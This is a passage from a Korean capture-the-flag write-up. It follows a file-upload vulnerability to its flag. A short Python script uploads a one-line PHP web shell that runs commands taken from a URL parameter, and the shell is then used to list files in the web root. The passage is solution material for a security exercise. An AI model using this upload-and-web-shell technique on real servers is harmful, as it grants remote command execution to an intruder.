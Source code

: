 이때 인자로 넘겨지는 구조체를 분석하면 위와 같이 파일 업로드의 요청 URL과 파일 업로드에 사용되는 form-data의 변수명을 확인할 수 있습니다.

따라서 문제에서 서버에서 플래그를 찾으라고 했으므로, 파일 업로드 취약점을 생각할 수 있습니다.

### 2.2.6 플래그 획득

---

```python
import requests

res = requests.post('http://222.117.109.215:8458/upload.php', files = {"file":("webshell.php","<?php system($_GET['cmd']) ?>")})
print(res.status_code)
```

위와 같은 python 코드로 PHP Webshell을 업로드 한 뒤 실행합니다.

![Untitled](/assets/2022-01-01/BISC%2058.png)

파일 업로드 경로는 `upload.php` 페이지에서 확인할 수 있고, 웹쉘을 실행시켜 `Document Root` 경로에서 플래그를 가진 파일명을 확인할 수 있습니다.

![Untitled](/assets/2022-01-01/BISC%2059.png)